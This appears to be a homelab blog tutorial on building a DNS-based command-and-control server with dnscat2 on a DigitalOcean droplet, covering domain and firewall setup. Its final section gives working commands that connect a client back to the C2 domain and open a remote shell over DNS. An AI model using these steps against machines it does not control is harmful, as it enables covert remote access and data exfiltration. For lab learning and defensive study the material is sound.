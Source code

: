 ```yaml
---
title: C2 over DNS
categories: [homelab]
tags: [homelab, dns] # TAG names should always be lowercase
img_path: /assets/img/homelab
---
```

[main](/posts/homelab_intro)

# Command and Control server over DNS
Sources:
[TryHackMe | DNS in detail](https://tryhackme.com/room/dnsindetail),
[TryHackMe | DNS Manipulation](https://tryhackme.com/room/dnsmanipulation),
[TryHackMe | Data Exfiltration](https://tryhackme.com/room/dataxexfilt).
(These sources explain ways to exfiltrate data over DNS using python and iodine)

Setup your own authoritative DNS server using AWS: [STOK's video](https://www.youtube.com/watch?v=p8wbebEgtDk) 
	
You can use `iodine`, `dnscat2`, and `cobalt strike` for c2 over DNS. I am using dnscat2 on a digitaloceans droplet.

## DNS server setup using digitaloceans
1. Spin up a droplet (2GB memory) - You'll get a public ip address
2. Connect to the server. On Windows, you can use the Terminal app with WSL(Ubuntu or Kali) on Windows. You can SSH into the server and continue with the following steps.
3. You'll get a root user access. Create a new user on the server.
4. Take a snapshot of the droplet
5. Setup the firewall rules for the droplet. All traffic in and out shall be blocked by default. So, you have to manually enable them for your droplet. Manage > Networking > Firewalls

### Firewall rules:
![Inbound rules](inbound_do_rules.png)
![Outbound rules](outbound_do_rules.png)

## Get a Domain Name
- I went with hostgator. You can find cheap(<$1) domain names like the `.site` TLD.
- Other popular options include namecheap and godaddy.
- You can get a free subdomain from EU.org. You can donate to `nic.eu.org` later if you can't afford a domain name now.
- "The main goal of EU.org is to provide free subdomain registration to users or non-profit organizations who cannot afford the fees demanded by some NICs" - [nic.eu.org](https://nic.eu.org/)
- The only drawback is that it would take about a month for approval. (When asked for nameservers, just point it to the digitalocean nameservers after you setup the domain management)

## Domain management using digitaloceans
[DNS Propagation Checker - Global DNS Testing Tool (whatsmydns.net)](https://www.whatsmydns.net/)
- Configure the nameservers to digitalocean nameservers at your domain provider account.
- Add a domain to your droplet

> While making records, make sure that you keep the ttl low till things work (Initially, I chose one-tenth value. Now they are back to defaults).
{: .prompt-info}

More info: [How to choose DNS TTL values - APNIC Blog](https://blog.apnic.net/2019/09/27/how-to-choose-dns-ttl-values/)

Set the Records as follows:

![DNS records](dns_records_do.png)

## dnscat2 setup
> Take the server snapshot before you proceed
```bash
# on client
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
sudo apt install gcc make
sudo make
# Also, you can wget from the c2 server
# You can use the following command for a directory:
	# wget --no-parent -r http://example.com/DIRECTORY
```

> Installation on the server - as a regular user (not as a root):
{: .prompt-warning}

```bash
# install ruby (or "ruby-dev" if you get an error: `require` - loaderror) and gem
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo chown -R example_user /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> 
	start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat --dns port=53531,server=example.com --secret=<secret_value>
# use the ip address instead of example.com if your domain name is not resolving 

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
	
# you can run multiple servers on multiple ports using dnscat2. The client can send different packets to different ports
```
learn more from: [dnscat2](https://github.com/iagox86/dnscat2.git)

Network traffic:
![dns](dnscat2_traffic_blur.png)
